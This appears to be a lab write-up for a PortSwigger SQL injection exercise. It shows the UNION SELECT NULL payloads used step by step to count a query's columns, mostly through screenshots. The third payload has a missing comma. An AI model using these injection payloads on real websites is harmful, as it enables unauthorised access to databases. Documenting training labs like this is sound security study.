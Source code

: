 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/31f08675-5378-41b6-ada5-ef1cffbf978b)

## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/aaf3ff13-c33e-4af9-b39d-4acdd565dcb8)

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

Added "UNION NULL" to the request to determine the number of columns used in the query.

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>''UNION+SELECT+NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/088aa7ca-c084-4a95-9a53-828558f2d185)

we got internal server error so the coloms size is more than 1.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/73e405f2-d178-491e-87c9-8b2d6f07c3ee)

Incrementing 'NULL' once again .

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>''UNION+SELECT+NULL,NULL--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b8e97441-aac7-4f9c-9b40-02cd6a625930)

we got internal server error again so the coloms size is more than 2.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/73e405f2-d178-491e-87c9-8b2d6f07c3ee)

Incrementing 'NULL' 3rd time.

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>''UNION+SELECT+NULL,NULL+NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/187445d5-5c5b-482b-a626-7af3bb8f74d6)

This did not throws an internal server error. It means that there are 3 columns that is being retreived in the query.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d57e1089-4892-402a-9e5a-509cfc10fab2)





